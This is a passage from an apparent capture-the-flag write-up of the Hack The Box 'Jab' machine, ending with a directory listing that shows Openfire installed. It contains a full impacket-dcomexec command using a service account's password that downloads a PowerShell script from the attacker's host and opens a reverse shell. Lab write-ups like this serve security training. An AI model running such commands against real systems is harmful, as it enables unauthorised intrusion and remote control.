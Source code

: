 ```bash
$ impacket-dcomexec -object MMC20 jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.10.11.4 'cmd.exe /c "powershell iex (New-Object Net.WebClient).DownloadString(\"http://10.10.14.95/Invoke-PowerShellTcp.ps1\");Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.95 -Port 4444"' -silentcommand
```

![reverse shell as svc_openfire](images/Jab-reverse-shell-svc_openfire.png)

We find the user flag in `C:\Users\svc_openfire\Desktop\user.txt`.

## Openfire

### Openfire found and active

Looking around, we find that `Openfire` is indeed running on the server:
```powershell
PS C:\windows\system32> dir 'C:\Program Files'

    Directory: C:\Program Files

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       10/23/2023  12:12 PM                Common Files                                                          
d-----         1/8/2024  10:58 AM                internet explorer                                                     
d-----       10/23/2023   1:00 PM                Java                                                                  
d-----         2/1/2024   7:55 AM                Mozilla Firefox                                                       
d-----         2/1/2024   8:32 AM                Openfire                                                              
d-----       10/23/2023  12:12 PM                VMware                                                                
d-----         1/8/2024  10:58 AM                Windows Defender                                                      
d-----         1/8/2024  10:58 AM                Windows Defender Advanced Threat Protection                           
d-----         1/8/2024  10:58 AM                Windows Mail                                                          
d-----         1/8/2024  10:58 AM                Windows Media Player                                                  
d-----        9/15/2018   3:19 AM                Windows Multimedia Platform                                           
```